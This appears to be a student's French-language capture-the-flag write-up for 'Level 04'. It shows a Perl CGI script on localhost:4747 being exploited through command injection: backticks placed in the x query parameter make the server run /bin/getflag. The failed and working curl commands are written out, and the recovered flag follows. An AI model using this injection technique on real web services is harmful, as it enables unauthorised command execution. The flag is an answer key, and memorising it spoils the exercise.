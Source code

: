 # Level 04

## Recherche

il y a un fichier perl, on pense qu'il va falloir modifier ses acces et que le fichier affiche dans une page html le flag

je pense qu'il va falloir trouver une technique pour qu'il aille chercher getflag pendant l'execution

il y a le param dans le fichier qui me rend perplexe, on ne voit pas ce qu'il faut mettre. la version html a utiliser ? le chemin de getflag ? 

------

test de la command curl pour executer le programme 

__curl -v localhost:4747__ specifie que la commande est valide, elle recoit et renvoie quelque chose

__curl localhost:4747/?x=param__ affiche param, donc le x correspond au $y. 
on peut donc trouver une solution pour y inserer autre chose

__?x="/bin/getflag"__ ne fonctionne pas

__echo `ls`__ execute ls et non pas affiche ls

__curl localhost:4747/?x=`/bin/getflag`__ ne fonctionne pas non plus

__curl 'localhost:4747/?x=`/bin/getflag`'__ fonctionne ! le `xxx` permet de faire comprendre que c'est une entite en soit, et le 'xxx'  permet de dire qu'il y a des char speciaux a prendre en compte

## Flag : ne2searoevaevoem4ov4ar8ap


# Sitographie

